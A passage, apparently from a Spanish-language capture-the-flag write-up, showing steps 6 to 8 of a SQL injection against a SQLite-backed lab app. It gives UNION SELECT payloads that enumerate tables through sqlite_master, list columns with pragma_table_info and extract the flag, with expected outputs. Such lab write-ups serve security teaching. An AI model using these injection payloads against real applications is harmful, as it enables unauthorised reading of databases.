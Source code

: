 
---

## Paso 6: Enumerar tablas en la base de datos

Ejecutamos el siguiente payload para conocer las tablas existentes en la base de datos SQLite:

```sql
-1 UNION SELECT 1, name, 3 FROM sqlite_master WHERE type='table' --
```

### Explicación

- `sqlite_master` es una tabla especial interna en SQLite que contiene la estructura de la base de datos.
- Filtramos solo por entradas donde `type='table'` para listar tablas.
- Usamos `UNION` con valores ficticios para ajustar columnas y obtener el resultado.

### Resultado esperado:

```
|   id |name                 |  rate |
|    1 |branches             |     3 |
|    1 |flag                 |     3 |
```

---

## Paso 7: Explorar estructura de la tabla `flag`

Consulta para obtener columnas de la tabla `flag`:

```sql
-1 UNION SELECT 1, name || '|' || type, 3 FROM pragma_table_info('flag') --
```

- `pragma_table_info('flag')` devuelve metadata de columnas en SQLite.
- Concatenamos nombre y tipo para claridad.

Resultado:

```
|   id |name                 |  rate |
|    1 |name|TEXT            |     3 |
```

Indica que la tabla `flag` tiene una columna `name` de tipo texto.

---

## Paso 8: Extraer la flag de la columna `name`

Extraemos contenido de la flag:

```sql
-1 UNION SELECT 1, name, 3 FROM flag --
```
